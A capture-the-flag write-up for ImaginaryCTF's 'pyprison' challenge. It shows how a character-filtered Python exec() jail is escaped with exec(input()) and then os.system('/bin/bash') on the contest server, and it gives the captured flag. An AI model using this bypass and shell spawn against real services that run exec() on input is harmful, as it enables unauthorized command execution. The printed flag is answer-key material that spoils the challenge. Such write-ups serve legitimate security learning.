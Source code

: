 ```yaml
---
title: pyprison [IMAGINARY CTF] [MISC]
date: 2022-07-18 11:28:05 +0200
categories: [python,ctftime]
tags: [CTFTIME]
excerpt: Write up for the challenge "pyprision" from Imaginary CTF
---
```


## pyprison

 > Given file


```python
#!/usr/bin/env python3

while True:
  a = input(">>> ")
  assert all(n in "()abcdefghijklmnopqrstuvwxyz" for n in a)
  print("Execing")
  exec(a)
```

- We're restricted to these constraints.
- We can only use lowercase alphabets and parentheses 
- Here we can do anything with these chars
- Let's get an input and pass it to exec

```c++
➜  misc python3 pyprison.py
>>> exec(input())
Execing
print('Meaw Meaw')
Meaw Meaw
```
- Here you can see it's executed our input
- Now let's try to get a shell

> in remote server

```c++
➜  misc nc pyprison.chal.imaginaryctf.org 1337
== proof-of-work: disabled ==
>>> exec(input())
import os; os.system('/bin/bash')
whoami
user
id
uid=1000(user) gid=1000(user) groups=1000(user)
```

> Now read the flag

```c++
cat flag.txt
ictf{pyprison_more_like_python_as_a_service_12b19a09}
```

flag: `ictf{pyprison_more_like_python_as_a_service_12b19a09}`
